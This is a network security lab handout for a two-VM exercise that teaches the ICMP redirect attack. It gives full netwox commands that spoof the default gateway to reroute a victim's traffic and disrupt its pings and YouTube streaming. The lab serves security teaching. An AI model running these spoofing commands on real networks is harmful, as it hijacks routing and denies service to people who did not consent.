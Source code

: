 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network.

| VM  |  IP Address   |
|-----|---------------|
| VM1 | 172.16.77.128 |
| VM2 | 172.16.77.129 |

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense. if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

3. victim, run: 

```console
$ ping www.google.com (this time it should still succeed)
```

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com (this time it should fail, thus it proves the attack is successful.)
```

the next two steps attempt a new attack which disrupts the victim's video streaming service:

6: victim, open firefox, watch some youtube video.

7: attacker, run the exact same attack command as before: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1 (if successful, victim won't be able to watch the youtude video)
```
